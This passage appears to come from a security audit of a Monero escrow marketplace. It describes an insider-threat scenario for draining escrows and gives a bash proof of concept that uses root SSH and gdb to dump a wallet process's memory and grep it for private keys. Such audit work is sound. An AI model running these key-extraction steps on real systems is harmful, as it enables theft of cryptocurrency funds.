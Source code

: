 **Timeline:** Hours from exploit to exfiltration

**Impact:** Persistent backdoor, delayed theft

---

### Attack Scenario 3: Insider Threat

**Attack Scenario 3: Malicious Server Administrator**
```
1. Admin with root access to server
2. monero-wallet-cli --wallet-file arbiter_wallet
3. view_key → can see all escrow balances
4. spend_key → can sign transactions
5. Collude with confederate acting as "buyer" or "vendor"
6. Drain escrows systematically
```

**Timeline:** Instant

**Impact:** Undetectable until funds missing

---

## Exploitation Proof-of-Concept

**See:** `security-audit/exploits/TM-001-arbiter-compromise.sh`

### Simplified Demo

```bash
#!/bin/bash
# TM-001 POC: Demonstrate arbiter key extraction from server

# Assume attacker has root access to server
SSH_HOST="marketplace.onion"
SSH_USER="root"

echo "[*] Step 1: Identify monero-wallet-rpc process"
ssh $SSH_USER@$SSH_HOST "ps aux | grep monero-wallet-rpc | grep -v grep"

# Output:
# root  1234  ... /usr/bin/monero-wallet-rpc --wallet-file arbiter_wallet

WALLET_PID=1234

echo "[*] Step 2: Attach gdb to extract wallet keys"
ssh $SSH_USER@$SSH_HOST "gdb -p $WALLET_PID -batch -ex 'dump memory wallet.dump 0x7f0000000000 0x7f0010000000'"

echo "[*] Step 3: Search dump for Monero private keys (32-byte sequences)"
ssh $SSH_USER@$SSH_HOST "strings wallet.dump | grep -E '^[0-9a-f]{64}$' > potential_keys.txt"

echo "[*] Step 4: Reconstruct wallet offline"
# Copy potential_keys.txt to offline machine
# Brute-force test each 32-byte hex as spend_key
# Once found, attacker has full arbiter wallet control

echo "[!] RESULT: Arbiter wallet compromised"
echo "[!] IMPACT: Can sign any multisig transaction with 1 corrupted participant"
```
